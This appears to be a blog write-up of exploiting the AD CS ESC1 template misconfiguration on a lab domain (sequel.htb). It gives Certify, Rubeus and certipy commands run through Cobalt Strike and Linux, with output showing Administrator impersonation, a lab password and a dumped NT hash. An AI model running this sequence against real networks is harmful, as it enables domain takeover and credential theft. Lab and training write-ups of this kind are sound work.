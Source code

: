 ```yaml
---
title: ADCS - ESC1
date: 2025-05-07 06:00:00 +/-TTTT
categories: [ADCS]
tags: [ADCS-ESC1]     # TAG names should always be lowercase
image : /assets/images/ESC1.gif
---
```


## Entry

### ➜ Key Functions of ADCS
Active Directory Certificate Services (AD CS) is used to issue and manage digital certificates within an Active Directory environment. Its core functions include:

>Integration with AD: Seamless integration with Active Directory for certificate issuance tied to user and machine identities.

>Certificate Authority (CA): Acts as a trusted entity that issues certificates by binding public keys to user or machine identities.

>Key Pair Generation: Clients generate a private key and send a public key in a Certificate Signing Request (CSR).

>CSR Submission: The CSR, which includes identity and template info, is sent to the Enterprise CA.

>Verification Process: The CA verifies permissions and ensures the client is allowed to request certificates based on the template.

>Certificate Issuance: If valid, the CA signs and returns a certificate to the client, which can then be used for secure authentication or communication.

## Windows Abuse with Cobalt Strike

First of all before we start i wanna enum fully cause to be sure its not honeypot lol xD

### ➜ Enumerate
Command to execute:
```sh
Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2)(pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=sequel,DC=htb' | Select-Object -ExpandProperty DistinguishedName
```
![alt text](../assets/images/esc1.png)

Now running [Certify.exe](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe) for find vulnerable template and CA tho.

Command to execute:
```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Certify.exe find /vulnerable
```
![alt text](../assets/images/esc2.png)

The `UserAuthentication` certificate template is vulnerable to ESC1 due to the following conditions:
* Enrollment Permissions: sequel.htb\Authenticated Users can request certificates, which includes us.

> Fallback via Computer Accounts: Even if user enrollment were restricted, sequel.htb\Domain Computers can enroll — meaning we can create a machine account and still obtain a certificate.
{: .prompt-tip }

* Client Authentication EKU: The certificate includes the Client Authentication purpose, making it valid for AD authentication.

* EnrolleeSuppliesSubject Enabled: This critical misconfiguration allows us to define the subject of the certificate, letting us impersonate any user — including the domain admin.

We can now exploit this by using Certipy to request a certificate impersonating the Administrator account via the vulnerable template.

### ➜ Attack

>-> CA value : dc.sequel.htb\sequel-DC-CA

>-> Template value : UserAuthentications

Command to execute:
```sh
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
![alt text](../assets/images/esc4.png)

it will give us cert.pem we have to convert it to pfx here is why

> Windows uses .pfx or .p12 format for importing certificates into the certificate store (e.g., via MMC).
{: .prompt-tip }

![alt text](../assets/images/esc5.png)


We have pem file lets convert it pfx.

Command to execute:
```sh
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
![alt text](../assets/images/esc6.png)

Lets upload it C:\ProgramData for example.

![alt text](../assets/images/esc7.png)

Now time to use Rubeus with `/getcredentials` `/show` `/nowrap`. This will  try to dump credential information about the account:

Command to execute:
```sh
execute-assembly /home/elliot/tools/Rubeus.exe asktgt /user:Administrator /certificate:C:\ProgramData\cert.pfx /getcredentials /show /nowrap
```
![alt text](../assets/images/esc8.png)

Lets verify it
```sh
➜  ESC1 nxc smb 10.10.11.202 -u Administrator -H A52F78E4C751E5F5E17E1E9F3E58F4EE
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\Administrator:A52F78E4C751E5F5E17E1E9F3E58F4EE (Pwn3d!)
```

## Linux Abuse

We will do same things for ESC1. grab CA and Template name and request Administrator(or wthatever) pfx.

Command to execute:
```sh
certipy-ad find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
```

![alt text](../assets/images/esc9.png)

and request the pfx.

> If you get a timeout error, just try running the command again.
{: .prompt-tip}

```sh
➜  ESC1 certipy-ad req -u Ryan.Cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication -key-size 4096 -sid 'S-1-5-21-4078382237-1492182817-2568127209-500'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 18
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
> Sometimes u will get `KRB_AP_ERR_SKEW(Clock skew too great)` error so always use.
{: .prompt-tip}

```sh
➜  ESC1 faketime "$(ntpdate -q DC.sequel.htb | cut -d ' ' -f 1,2)" certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb -dc-ip 10.10.11.202
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```

